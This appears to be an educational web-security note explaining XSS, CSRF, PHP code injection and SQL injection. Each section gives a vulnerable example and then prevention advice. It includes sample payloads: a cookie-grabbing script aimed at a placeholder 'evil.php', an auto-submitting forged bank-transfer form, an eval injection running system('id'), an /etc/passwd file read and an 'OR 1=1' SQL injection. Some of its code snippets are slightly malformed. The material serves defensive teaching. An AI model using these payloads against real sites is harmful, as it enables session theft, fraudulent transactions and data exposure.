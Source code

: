 *** XSS attacks (Cross-site scripting) ***

XSS is an injection method that provides malicious script into a trusted website. Injected script gets downloaded and executed by the end users browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a ligitimate script. 

XSS attacks may be conducted without using <script>...</script> tags. Other tags will do exactly the same thing.

Examples:

This script is encoded in base64 and placed in META tag.

<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">

If the application doesn't validate the input data, the attacker can easily steal a cookie from an authenticated user. 

<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>



Assume that we have an error page, which is handling requests for a non existing pages, 404 error page.

<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>



User can try to force the error page to include this code:

http://testsite.test/<script>alert("TEST");</script> The result is: Not found: / 

(but with JavaScript code <script>alert("TEST");</script>)



**XSS attacks can be prevented with** encoding the inputs in with a standart and then process it. 

in javaScript users can process each input and replace the suspicious characters which can be used in injection methods. And in server-side (PHP), inputs can be used with preprocess them with htlmspecialchars() function.

*** Cross Site Request Forgery (CSRF) ***

Cross Site Request Forgery is a vulnerability where an attacker performs actions while impersonating another user. It can be occur by redirecting users to a link and make a post request with filled form as soon as the page is loaded with using users cookie informations

Examples:


This is a scam webpage that users will think they earn a giveaway and when they want to transfer it to their accounts, it fills an html form and executes the POST form.
<html>
    <body>
        <h1>...</h1>

            <form action="[https://saturnbankgiveaway.com/transfer] (https://saturnbankgiveaway.com/)" method="POST">
                <input type="hidden" iban="421123123123121233314" accountNo="123123123" amount="100" />
            </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

The form creates the following request to the legit Saturn Bank application. The request contains the legit user's session cookie, but contains my account number.

POST /transfer HTTP/1.1 
HOST: saturnbank.com
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Cookie: session=0M19vamsdkf43DFASFsauaSs
iban=421123123123121233314&accountNo=123123123&amount=100


**CSRF attacks can be prevented by** using CRSF tokens, or any type of instantly created tokens used between the client and server-side of an application. They can be included in any requests the client makes to the server. The server validates the token on each request to ensure it's still the authorized user making the request.

Then users should add the CRSF token input field to each form in their applications.


*** PHP Code Injections ***

If a php code doesn't have any input validation for special chars or char combinations, these codes are vulnerable to a code injection attacks. 

For example, if i have a code segment like this:
    $myvar = "varname";
    $x = $_GET['arg'];
    eval("$myvar = $x;");
This code is vulnerable to attacks as this:
     /index.php?arg=1; system('id')


Another example:
    $file = basename(realpath($_GET['file']));
    include($file);
in this code block, if we pass **/etc/passwd** as the argument, this file is  readable for all users. The script returns the content of the file with information about all system users.


**Users can prevent php code injections** with avoiding to use exec(), shell_exec(), system() or passthru() functions. These functions may use directly OS files and folders and it causes major vulnerabilities.

PHP provides some functional operators with built-in input escaping called escapeshellarg() and escapeshellcmd(), which passes input through some level of escape and sanitisation as part of the function call.

Users may provide their own input validations before using inputs in their inner systems.

*** SQL Injections ***

SQL injection is an injection technique that may destroy or cause security vulnerabilities on users databases. It causes when an SQL query is executed with passing an input directly inside of the query. Users can manipulate the query depending on their own desires. 

Examples:
    txtUserId = getRequestString("UserId");
    txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
in this example user can add new queries with passing new sql commands in the UserId field like this:

UserId: 105 OR 1=1

this is equivalent to this :
    SELECT * FROM Users WHERE UserId = 105 OR 1=1;
the condition "UserId = 105 OR 1=1" will be always true and it returns all the rows of Users table.


**Users can prevent SQL injections** with preparing queries with expected variables and binding parameters with their types, and execute the query.

This provides SQL to type of the input and behave it like that input is only can be that kind of input, not any continues queries.

In this example:
    prepare("SELECT * FROM Users WHERE UserId=?);
    bind_param("i", $txtUserId);

    $result = execute();
